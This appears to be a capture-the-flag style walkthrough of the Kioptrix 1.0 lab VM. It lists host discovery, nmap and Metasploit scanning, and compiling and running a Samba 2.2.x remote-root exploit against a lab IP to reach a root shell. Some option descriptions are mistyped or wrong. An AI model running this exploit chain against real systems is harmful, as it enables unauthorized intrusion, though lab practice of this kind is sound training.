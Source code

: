 *Kioptrix1.0*

**RECON**
---
**Discovery** 
<pre>netdiscover -i eth1</pre>  
192.168.57.1, 192.168.57.5 have open ports
![image9](https://user-images.githubusercontent.com/66635295/158940818-d91d29b5-923c-4acc-9f6b-2091c60363b9.png)


**Nmap Scan**  
<pre>namp -sC -sV -A 192.168.57.5</pre>    
-safescan -version -OS detection     
Port 139 running Samba   
![image6](https://user-images.githubusercontent.com/66635295/158940906-7b990432-a866-4a7c-90a4-832f86c0dafa.png)

**Version Scan**  
<pre>msfconsole</pre>
<pre>use auxiliary/scanner/smb/smb-version</pre>
Samba Version 2.2.1
![image1](https://user-images.githubusercontent.com/66635295/158941165-4041b36e-e43e-4ca3-b01f-134e71fecd21.png)

**Google-Fu**  
<pre>samba 2.2.1a exploit</pre>  
2.2.8 RCE  
![image7](https://user-images.githubusercontent.com/66635295/158942927-e5417000-4f14-40f7-91e0-87c67e61d0df.png)  
![image4](https://user-images.githubusercontent.com/66635295/158942943-428d01f1-8ae4-4681-bd8b-bfcac35135e2.png)  


**ENUMURATION**
---
**Save Exploit**  
![image5](https://user-images.githubusercontent.com/66635295/158943061-9e2fd590-175e-4807-afae-0a78d37c6c87.png)

**Make executable copy**  
<pre>gcc 10.c -o 10</pre>  
GNU compiler outposts copy executable to file 10  
![image8](https://user-images.githubusercontent.com/66635295/158943348-a0ebcee3-3ce7-46bc-8aec-8a99eecff320.png)  


**Root Escalation**
---
**Shell**
<pre>./10 -b 0 192.168.57.5</pre>
-Bruteforce linux  
![image10](https://user-images.githubusercontent.com/66635295/158943567-b99148a3-410d-4a37-b859-1e207c344df1.png)
  
**Root Flag**  
 <pre>head -n 100 /var/spool/mail/root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158943980-2635c5da-7035-4f71-a491-2bd512c3aaa2.png)


